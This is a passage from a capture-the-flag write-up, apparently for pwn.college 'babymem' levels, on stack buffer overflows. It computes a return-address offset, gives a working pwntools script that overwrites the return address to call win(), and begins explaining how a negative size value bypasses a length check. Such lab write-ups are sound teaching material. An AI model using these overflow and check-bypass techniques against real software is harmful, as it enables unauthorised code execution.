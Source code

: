 ```
   0x0000000000401888 <+326>:   leave
   0x0000000000401889 <+327>:   ret
```

-In this level, we know approach to solve; now, we will calcualte offset to return address.

**Address of some variables:**

    win = 0x401645
    buf = 0x7ffc882ca280
    return address = 0x7ffc882ca308 
    
- So, the offset: 0x7ffc882ca308 - 0x7ffc882ca280 = 136
**My script:**

```
from pwn import *
r = process('/challenge/babymem_level3.1')
r.recvuntil(b'Payload size: ')
r.sendline(b'144')
r.recvuntil(b'Send your payload (up to 144 bytes)!')
r.sendline(b'A'*136 + p64(0x401645))
r.interactive()
```

# 4. Level 4.0:

> In this level, there is no "win" variable.
> You will need to force the program to execute the win() function
> by directly overflowing into the stored return address back to main


-First, I try to do something similar to level 3.1; however, It is impossible.

> *This challenge is more careful: it will check to make sure you
> don't want to provide so much data that the input buffer will
> overflow. But recall twos compliment, look at how the check is
> implemented, and try to beat it!
> Provided size is too large!*

-I start to debug the program and notice checking segment.

```
   0x00000000004028ae <+757>:   mov    eax,DWORD PTR [rbp-0x54]
   0x00000000004028b1 <+760>:   cmp    eax,0x3a
   0x00000000004028b4 <+763>:   jle    0x4028cc <challenge+787>
   0x00000000004028b6 <+765>:   lea    rdi,[rip+0x10dc]        # 0x403999
   0x00000000004028bd <+772>:   call   0x401120 <puts@plt>
   0x00000000004028c2 <+777>:   mov    edi,0x1
   0x00000000004028c7 <+782>:   call   0x4011b0 <exit@plt>
   0x00000000004028cc <+787>:   lea    rdi,[rip+0x10e5]        # 0x4039b8
```
-I see that **rbp-0x54** while address of buf is **rbp-0x8**; therefore, you can't overwrite it.
-However, notice that what happens when you input -1 in the payload size???
-The program will understand it its value is **0xffffffff**.
